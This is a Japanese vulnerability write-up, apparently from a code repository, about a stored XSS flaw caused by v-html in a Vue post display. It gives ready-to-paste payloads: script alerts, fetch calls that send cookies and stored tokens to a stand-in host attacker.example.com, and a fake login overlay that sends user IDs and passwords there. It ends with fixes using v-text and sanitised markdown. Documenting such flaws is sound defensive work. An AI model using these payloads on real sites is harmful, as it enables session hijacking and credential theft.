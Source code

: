 # 投稿表示機能のXSS

## 脆弱性の説明
投稿内容の表示にv-htmlディレクティブを使用しているため、クロスサイトスクリプティング（XSS）が可能です。

## 影響範囲
- 悪意のあるスクリプトの実行
- ユーザーセッションの盗取
- 不正な操作の実行

## 攻撃方法と手順

### 1. 基本的なXSS攻撃

1. アプリケーションにログインします
2. 投稿作成フォームにアクセスします
3. 投稿内容フィールドに以下のXSSペイロードを入力します：
   ```html
   <script>alert('XSS攻撃が成功しました！');</script>
   ```
4. 投稿ボタンをクリックします
5. 投稿一覧ページに移動すると、アラートダイアログが表示されます

### 2. クッキー盗取攻撃

1. アプリケーションにログインします
2. 投稿作成フォームにアクセスします
3. 投稿内容フィールドに以下のXSSペイロードを入力します：
   ```html
   <img src="x" onerror="fetch('https://attacker.example.com/steal?cookie='+encodeURIComponent(document.cookie))">
   ```
   または
   ```html
   <script>
   fetch('https://attacker.example.com/steal?token='+encodeURIComponent(localStorage.getItem('token')))
   </script>
   ```
4. 投稿ボタンをクリックします

このペイロードは、ユーザーのクッキーやローカルストレージに保存されたトークンを攻撃者のサーバーに送信しようとします。実際の攻撃では、攻撃者が制御するサーバーのURLを使用します。

### 3. DOM操作によるページ改ざん攻撃

1. アプリケーションにログインします
2. 投稿作成フォームにアクセスします
3. 投稿内容フィールドに以下のXSSペイロードを入力します：
   ```html
   <div id="fake-login" style="position:fixed; top:0; left:0; width:100%; height:100%; background-color:white; z-index:9999;">
     <h2>セッションの有効期限が切れました</h2>
     <form onsubmit="fetch('https://attacker.example.com/steal?id='+document.getElementById('user').value+'&password='+document.getElementById('pass').value); return false;">
       ユーザーID: <input type="text" id="user"><br>
       パスワード: <input type="password" id="pass"><br>
       <button type="submit">ログイン</button>
     </form>
   </div>
   ```
4. 投稿ボタンをクリックします

このペイロードは、偽のログインフォームを表示して、ユーザーのログイン情報を盗み取ろうとします。

## 攻撃成功の確認手順

### 1. 基本的なXSS攻撃の確認

1. 上記の基本的なXSSペイロードを使用して投稿を作成します
2. 投稿一覧ページに移動します
3. アラートダイアログが表示されれば、XSS攻撃が成功しています

### 2. コンソールログでのXSS確認

1. ブラウザの開発者ツールを開きます（F12キー）
2. 「Console」タブを選択します
3. 以下のXSSペイロードを使用して投稿を作成します：
   ```html
   <script>console.log('XSS攻撃が成功しました！');</script>
   ```
4. 投稿一覧ページに移動します
5. コンソールに「XSS攻撃が成功しました！」というメッセージが表示されれば、XSS攻撃が成功しています

### 3. DOM操作の確認

1. 以下のXSSペイロードを使用して投稿を作成します：
   ```html
   <script>document.body.style.backgroundColor = 'red';</script>
   ```
2. 投稿一覧ページに移動します
3. ページの背景色が赤に変わっていれば、XSS攻撃が成功しています

## 対策方法
### 1. v-htmlの代わりにv-textを使用
```vue
<!-- 修正前（脆弱なコード） -->
<template>
  <div v-html="post.content"></div>
</template>

<!-- 修正後（安全なコード） -->
<template>
  <div v-text="post.content"></div>
</template>
```

### 2. マークダウンやリッチテキストの安全な表示
```vue
<template>
  <div>
    <!-- マークダウンライブラリを使用した安全な表示 -->
    <markdown-it-vue :content="post.content" :options="markdownOptions"/>
  </div>
</template>

<script>
export default {
  data() {
    return {
      markdownOptions: {
        html: false, // HTMLタグの無効化
        linkify: true, // URLの自動リンク化
        breaks: true // 改行の有効化
      }
    }
  }
}
</script>
```
